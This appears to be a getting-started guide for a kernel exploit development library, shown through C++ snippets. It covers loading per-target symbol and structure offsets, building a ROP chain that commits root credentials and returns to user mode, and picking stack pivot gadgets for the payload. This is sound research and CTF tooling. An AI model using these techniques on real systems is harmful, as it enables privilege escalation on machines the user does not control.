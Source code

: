 # How to get started

### Initialize the Target Database

The target database contains all of the information needed to customize the exploit for the current target.

This section describes how to use the prebuilt database, extend it if necessary and how to make it replaceable with an updated version.

1. Add the necessary includes to the exploit code.

    ```c++
    #include <xdk/core.h>
    #include <xdk/postrip.h>
    ```

2. Include the **target_db**. `INCBIN` creates a read-only section in the exploit binary with the current target database content.

    ```c++
    INCBIN(target_db, "target_db.kxdb");
    ```

3. Initialize **TargetDb**. This constructor uses the `target_db.kxdb` file if exists, otherwise it fallbacks to the compile-time `INCBIN`'d database. This way, the exploit can be customized for running on other targets by supplying another `target_db.kxdb` after compilation time.

    ```c++
    TargetDb kxdb("target_db.kxdb", target_db);
    ```

4. Already available in database structure and symbol offsets are documented in `kxdb_tool/config.py`.
They are added for all the supported targets.

5. If the needed symbol is not in database, use `StaticTarget` object to add it. One object per target needed. For example:

    ```c++
    StaticTarget st("kernelctf", "cos-105-17412.294.34");

    st.AddSymbol("nft_last_ops", 0x1acaf20);

    kxdb.AddStaticTarget(st);
    ```

6. Similar approach could be taken for adding structure and fields information:

    ```c++
    StaticTarget st("kernelctf", "cos-105-17412.294.34");

    st.AddStruct("nft_expr_ops", 128, { 
        {"dump", 64, 8},
        {"type", 120, 8} });

    kxdb.AddStaticTarget(st);
    ```

    > **Note**
    > `128` in the example above is a size of the `nft_expr_ops` structure. `{"dump", 64, 8}` field is located at the offset of 64 and as is a pointer, size would be 8 for 64-bit architecture.

7. Access pre-defined or added (via `StaticTarget`) structures and symbols using following calls:

    ```c++
    auto offset = structs.at("nft_expr_ops").size + structs.at("nft_expr_ops").fields.at("type").offset; // get the size and offset of type field in nft_expr_ops structure   

    *(uint64_t *)&buffer[offset] = kernel_base + target.GetSymbolOffset("nft_last_ops"); // the address of nft_last_ops
    ``` 

8.  Detect which target **TargetDb** is being run on.

    ```c++
    auto target = kxdb.AutoDetectTarget();
    printf("[+] Running on target: %s %s\n", target.distro.c_str(), target.release_name.c_str());
    ```

### Building the Payload

After leaking a kernel address and calculating the KASLR base, you can begin constructing the exploit payload.

1. Initialize a `Payload` object. This will serve as the buffer for our ROP chain and other necessary data.

    ```c++
    Payload payload(1024);
    ```

2. If the payload contains constants / areas that should not be overwritten by `PayloadBuilder`, mark them as reserved:

   ```c++
   payload.Reserve(0, 8);
   ```
   
   > **Note**
   > Reserves 8 bytes at offset 0.   

3. Create the `RopChain`. This object is initialized with target-specific information and the KASLR base. You can then add predefined actions to it. The `Ret2Usr` utility helps in gracefully returning execution to a user-mode function after the kernel operations are complete.

    ```c++
    RopChain rop(target, kaslr_base);
    rop.AddRopAction(RopActionId::COMMIT_INIT_TASK_CREDS);
    RopUtils::Ret2Usr(rop, (void*)win);
    ```

    > **Note**
    > Available ROP actions could be found in `kxdb_tool/converter/config.py`. 

### Assembling the Final Payload with PayloadBuilder

The `PayloadBuilder` automates the process of finding a suitable pivot gadget and combining it with your payload and ROP chain.

1. Initialize the `PayloadBuilder` with the target's available pivot gadgets and the KASLR base.

    ```c++
    PayloadBuilder builder(target.pivots, kaslr_base);
    ```

2. Add the `payload` object to the builder. You need to specify which register will point to your payload buffer (e.g., `Register::RSI`) and the offset within that buffer where the instruction pointer (`rip`) will be hijacked.

    ```c++
    uint64_t rip_off = fake_ops_offs + release_offs; // Calculated offset for RIP control
    builder.AddPayload(payload, Register::RSI, rip_off);
    ```

    In the situation when multiple registers contain a pointer to the payload, it's worth informing `PayloadBuilder` about it:
    ```c++
    uint64_t rip_off = fake_ops_offs + release_offs; // Calculated offset for RIP control
    builder.AddPayload(payload, {Register::RSI, Register::RAX}, rip_off);
    ```

    `PayloadBuilder` is capable of handling multiple buffers (and use them if needed to accomodate ROP chain actions). To inform `PayloadBuilder` about such a setup use:
    ```c++
    Payload payload1(payload_size_1);
    Payload payload2(payload_size_2);
    PayloadBuilder builder(target.pivots, kernel_base); // create builder

    builder.AddPayload(payload1, std::nullopt, std::nullopt);
    builder.AddPayload(payload2, Register::RSI, rip_off); // add payload, with register, and rip_offset     
    ```

3. Add the `RopChain` to the builder.

    ```c++
    builder.AddRopChain(rop);
    ```

4. Build the final payload. The `Build()` method will find an appropriate pivot gadget that uses the specified register (`RSI` in this case) to redirect execution to your ROP chain. The necessary gadgets and the ROP chain itself will be written into the `payload` object you provided earlier.

    ```c++
    if(!builder.Build()) 
        exit(-1); 
    ```

    Once built, the `payload` object contains the complete, ready-to-use exploit payload.

5. In cases when pointer to pivot gadget should be part of some other buffer or passed as a parameter it could be obtained in the following way after building the final payload:
   
   ```c++
    *(uint64_t *)&some_buffer[offset] = kernel_base + builder.GetStackPivot().GetGadgetOffset(); 
   ```
